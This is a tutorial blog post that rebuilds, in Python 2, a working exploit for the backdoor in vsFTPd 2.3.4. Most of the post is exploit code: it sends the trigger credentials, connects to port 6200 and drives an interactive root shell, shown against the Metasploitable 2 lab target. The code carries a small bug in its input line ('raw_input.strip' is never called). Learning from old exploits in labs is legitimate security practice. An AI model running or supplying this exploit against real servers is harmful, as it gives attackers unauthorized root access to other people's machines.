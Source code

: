 Hello everyone! I've recently discovered my personally favorite way to practice programming languages. Basically, we're going to find an exploit written in a different language, and we're going to rebuild it in the language we want to practice.

In this article, we're going to be rebuilding an exploit that triggers a back door planted in vsFTPd version 2.3.4. Let's quickly run through how this back door is triggered and then we'll move onto the code.

Triggering this back door is actually really simple, we simply need to log in with the username "backdoored:)" and the password "invalid". Once we attempt to log in with these credentials, we should be able to connect to port 6200 to recieve a root shell. Now that we know how this works, let's get into the code!

First, we're going to set our interpreter path and import the modules we need:

    #! /usr/bin/python
    
    import sys # For arguments
    import socket # To trigger the back door
    import threading # Shell handling
    import time # Delay for shell interaction

Now that we have our modules, let's quickly handle the command line arguments. We're going to take the target IP as the first argument, and the target port number as the second. Let's see the code we'll use to take our arguments:

    if len(sys.argv) == 3:
        pass
    else:
        print "usage: ./exploit.py [TARGET IP] [TARGET PORT]"
        sys.exit(1)
    target = sys.argv[1]
    port = sys.argv[2]

Now that we have our arguments handled, we can make the triggering function. We're going to need to make a socket and log in with the aforementioned credentials. We'll name our function "trigger", simple enough, let's take a look at the code:

    def trigger():
        trigger_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            trigger_socket.connect((target, int(port)))
        except Exception:
            print '[!] Failed to Reach Target'
            sys.exit(1)
        print '[*] Attempting to Trigger the Back Door... '
        banner = trigger_socket.recv(1024)
        if 'vsFTPd 2.3.4' in banner:
            trigger_socket.send("USER backdoored:)\n")
            trigger_socket.recv(1024)
            trigger_socket.send("PASS invalid\n")
            trigger_socket.close()
            print '[*] Trigger Process Complete, Spawning Shell...'
            return
        else:
            print '[!] Invalid Service Detected'
            sys.exit(1)

Alright, now that might seem a bit complicated, but it's really not. See simply made a socket, grabbed the banner from the server, evaluated the service based on the banner, and logged in with the triggering credentials. Now that we've triggered the back door, we need to connect to it. 

First, we're going to make a function that will run as a thread. This means that it will run at the same time as the rest of the script. This function will infinitely print information that it receives from a socket that we're going to connect to the newly spawned shell. Let's look at this function now:

    def recv_from_shell(sock, status):
        sock.settimeout(3)
        while status == True:
            try:
                print sock.recv(1024).strip()
            except socket.timeout:
                pass
            except Exception:
                return

Now that we have this function, we can make our final function. This function will call the trigger() function, start the recieving the thread, and send the user's input to the shell. Let's take a look at this final function:

    def handle():
        trigger()
        shell_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        shell_status = True
        try:
            shell_socket.connect((target, 6200))
        except Exception:
            print '[!] Failed Interaction with Shell'
            sys.exit(1)
        shell_recv_thread = threading.Thread(target=recv_from_shell, args=(shell_socket, shell_status))
        shell_recv_thread.start()
        print '[*] Root Shell Spawned, Pwnage Complete\n'
        while 1:
            command = raw_input.strip()
            if command == 'exit':
                shell_status = False
                shell_socket.close()
                shell_recv_thread.join()
                sys.exit(0)
            shell_socket.send(command + '\n')

    try:
        handle()
    except Exception:
        sys.exit(1) # Emergency exit

There we go! Now that we have our exploit ([available here](http://pastebin.com/v0PTJP7i)), let's launch it against our victim. We'll be firing it against Metasploitable 2 , which runs vsFTPd 2.3.4 on port 21. Let's launch our exploit and see what happens:

![](http://i.imgur.com/iS0LoWs.png)

There we have it! Our exploit woks! I hope that we can re-build more exploits like this in the future, as it's a very good way to practice a language of your choice. If you have a language you need to practice, feel free to follow this with your own spin on things!

Thank you for reading!

-Defalt
